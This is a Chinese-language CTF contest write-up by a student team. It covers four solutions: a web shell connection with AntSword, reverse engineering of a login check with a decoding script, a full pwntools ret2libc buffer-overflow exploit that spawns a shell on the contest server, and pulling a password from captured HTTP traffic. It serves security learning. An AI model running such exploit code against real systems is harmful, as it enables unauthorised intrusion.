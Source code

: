 # NSCTF 四校联合CTF邀请赛WriteUp

!!! info
    队名：OK

    学校：西北工业大学

    成员：贺宇超、蔡海洋、高子奇

## Web

### sign in

使用中国蚁剑进行连接，密码是x，成功连接，然后到根目录发现flag.txt文件，进去发现flag

![img](assets/image.png)

![Alt text](assets/image-1.png)

## reverse

### TrackMe

拉入IDA进行分析

```c title="main函数伪代码" hl_lines="34-38"
int __cdecl main(int argc, const char **argv, const char **envp)
{
    int v3;             // ebx
    unsigned int v4;    // ecx
    char v5;            // dl
    char v7[29];        // [esp+Ch] [ebp-160h] BYREF
    __int16 v8;         // [esp+29h] [ebp-143h]
    char v9;            // [esp+2Bh] [ebp-141h]
    char v10[29];       // [esp+2Ch] [ebp-140h] BYREF
    __int16 v11;        // [esp+49h] [ebp-123h]
    char v12;           // [esp+4Bh] [ebp-121h]
    char v13[29];       // [esp+4Ch] [ebp-120h] BYREF
    __int16 v14;        // [esp+69h] [ebp-103h]
    char v15;           // [esp+6Bh] [ebp-101h]
    CHAR Filename[256]; // [esp+6Ch] [ebp-100h] BYREF
    if (argc == 2 && !strcmp(argv[1], aLogon))
    {
        memset(v7, 0, sizeof(v7));
        v8 = 0;
        v9 = 0;
        memset(v13, 0, sizeof(v13));
        v14 = 0;
        v15 = 0;
        memset(v10, 0, sizeof(v10));
        v11 = 0;
        v12 = 0;
        printf("please input username:");
        scanf("%s", v7);
        v3 = strlen(v7);
        if (v3 < 5)
            printf("Username must be at least five characters!\n");
        printf("please input password:");
        scanf("%s", v13);
        for (; v3 >= 1; v10[v4] = v5)
        {
            v4 = strlen(v7) - v3;
            v5 = v7[v4] - v3--;
        }
        if (!strcmp(v13, v10))
            return printf("Logon Success!\n");
        else
            return printf("Logon Failed!\n");
    }
    else
    {
        GetModuleFileNameA(0, Filename, 0x100u);
        printf("Usage:\r\n\t%s -Logon\n", Filename);
        return system(Command);
    }
}
```

![Alt text](assets/image-2.png)

经过分析写出解密脚本：

```cpp
#include <bits/stdc++.h>
using namespace std;
int main()
{
    char name[9] = "nsfocus";   //用户名(1)
    int L = 7;
    for (int i = 0; i < 7; i++)
    {
        printf("%c", name[i] - L);
        L--;
    }
}
```

1. 题干给出的用户名是nsfocus

结果是：**gmak`sr**

## pwn

### ret2libc

经过分析（在注释里面）

![Alt text](assets/image-3.png)

写出脚本：

```python title="exp"
from pwn import *
import sgtlibc #最开始用的是LibcSearcher，但是各种版本都试过了，搜不到正确的版本，换用了这个

context.log_level="debug"
p = remote('node.nsctf.cn',55446)#node.nsctf.cn:55446
elf=ELF("ret2libc")

main_addr = elf.sym['main']
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi_ret=0x0000000000400763
payload =b'a'*(0x40+8)+ p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) +
p64(main_addr)
#给puts函数传入puts的got 得到真实地址 再跳转回main函数便于再次溢出

p.sendlineafter("leave whatever you want",payload)
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
print(hex(puts_addr))

s = sgtlibc.Searcher()
s.add_condition('puts',puts_addr)#利用puts函数真实地址搜索libc

s.dump(db_index=0) # search libc , if returns multi-result ,default useindex-0's result
system = s.get_address(sgtlibc.s_system)
binsh = s.get_address(sgtlibc.s_binsh)
payload2 = b'a' * 0x48 +p64(pop_rdi_ret) + p64(binsh)+p64(system)
p.sendlineafter("leave whatever you want",payload2)
p.interactive()
```

## misc

### 流量包

使用wireshark打开，找到含有login的http报文，发现密码

![Alt text](assets/image-4.png)